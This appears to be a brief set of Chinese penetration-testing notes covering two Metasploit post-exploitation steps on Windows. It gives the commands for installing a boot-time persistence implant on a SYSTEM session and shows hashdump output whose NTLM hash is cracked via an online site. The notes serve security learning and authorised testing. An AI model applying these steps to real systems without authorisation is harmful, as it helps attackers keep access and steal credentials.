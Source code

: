 ## **Win MSF Windows启动自上线**
已知会话2为system/root
background
使用windows权限维持模块
```
use exploit/windows/local/persistence
show options
set session 2
run
```
^
## **Win MSF获取用户的hashdump**

获取密码哈希，msf中用hashdump命令
```
Administrator:500:ac804745ee68ebea1aa818381e4e281b:3008c87294511142799dca1191e69a0f:::
```
![image-20240613160426225](http://cdn.33129999.xyz/mk_img/image-20240613160426225.png)

前一段是LM，后一段3008c后是密码NTLM的hash，一般利用后一段，可以用在线网站解密Admin123

